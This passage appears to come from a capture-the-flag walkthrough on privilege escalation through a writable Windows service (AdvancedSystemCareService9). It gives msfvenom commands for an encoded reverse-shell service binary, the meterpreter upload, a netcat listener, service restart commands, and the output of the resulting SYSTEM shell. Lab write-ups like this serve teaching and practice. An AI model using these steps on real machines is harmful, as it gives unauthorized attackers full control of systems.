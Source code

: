 **Key Finding**: The `AdvancedSystemCareService9` service runs as `LocalSystem` and is modifiable by the `bill` user. It can be restarted, making it exploitable.

---

### Exploiting the Misconfiguration
1. **Generate a Reverse Shell**:
Create a malicious executable to replace the service binary:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.86.27 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```
**Output**:
```js
Payload size: 351 bytes
Final size of exe-service file: 15872 bytes
Saved as: Advanced.exe
```

2. **Upload the Malicious Binary**:
Navigate to the target directory and upload the reverse shell:
```js
meterpreter > cd "C:\Program Files (x86)\IObit\Advanced SystemCare"
meterpreter > upload /root/Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /root/Advanced.exe -> Advanced.exe
```

3. **Set Up a Netcat Listener**:
Start a listener on the attacker's machine:
```js
nc -nlvp 4443
```

4. **Replace and Restart the Service**:
Access a Windows CMD shell:
```js
meterpreter > shell
C:\Program Files (x86)\IObit\Advanced SystemCare>
```

Stop and restart the service:
```js
sc stop AdvancedSystemCareService9
sc start AdvancedSystemCareService9
```

5. **Gain SYSTEM Shell**:
The Netcat listener receives a connection:
```js
nc -nlvp 4443
connect to [10.10.86.27] from (UNKNOWN) [10.10.128.249] 49298
Microsoft Windows [Version 6.3.9600]
C:\Windows\system32>
```

**Result**: A SYSTEM-level shell is obtained, granting Administrator access.

---